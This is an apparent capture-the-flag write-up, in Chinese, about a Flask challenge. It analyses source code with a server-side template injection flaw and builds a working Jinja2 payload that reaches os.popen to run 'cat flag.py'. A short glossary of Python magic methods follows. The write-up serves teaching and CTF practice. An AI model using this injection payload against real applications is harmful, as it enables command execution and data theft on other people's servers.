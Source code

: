 ```python
        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
    except Exception as e:
        template = e
 
    return render_template('article.html', template=template)
 
if __name__ == "__main__":
app.run(host='0.0.0.0',port=80, debug=False)
```

#### 分析源码，确定漏洞利用

分析源码，可以知道：

1.文件夹有2个python文件 flag.py 和密钥文件 key.py。

2.不能直接访问 flag.py，这里任意文件读取过滤了flag关键词。

3.源码存在**SSTI模板注入**

因为代码中有判断传入的session是否含n1code（ 这里可以理解为判断session的身份码），没有的话就创建这个session['n1code']。

然后判断session['n1code']是否为空，为空的的话就令 template（模板）为空，不为空的话就赋值 template 为一段实体编码过的HTML模板，并且**把session['n1code']也带入到模板中渲染（渲染的代码会被执行，这里可以设计命令执行代码 )**。

也就是session中只要有n1code的内容，且不为空，就会被加入template模板中执行。这是只需在其中构造命令执行代码即可。

template解码后如下：

```
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```

#### 构造payload

**SSTI模板注入**

一般流程为：找到父类<type 'object'>-->寻找子类-->找关于命令执行或者文件操作的模块。

```
.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\']
```

说人话就是通过上面划线的语句，打开python命令执行的模块，这样我们的命令popen(\'cat flag.py\').read()才能被执行。

（os.popen() 方法用于从获取一个命令的输出）。

因此payload如下：

```
{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}
```

> ##### python flask框架中的一些魔术方法
>
> `__class__` 返回类型所属的对象
>
> `__mro__` 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
>
> `__base__` 返回该对象所继承的基类 //
>
> `__base__`和`__mro__`都是用来寻找基类的 `__subclasses__` 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
>
> `__init__` 类的初始化方法 `__globals__` 对包含函数全局变量的字典的引用

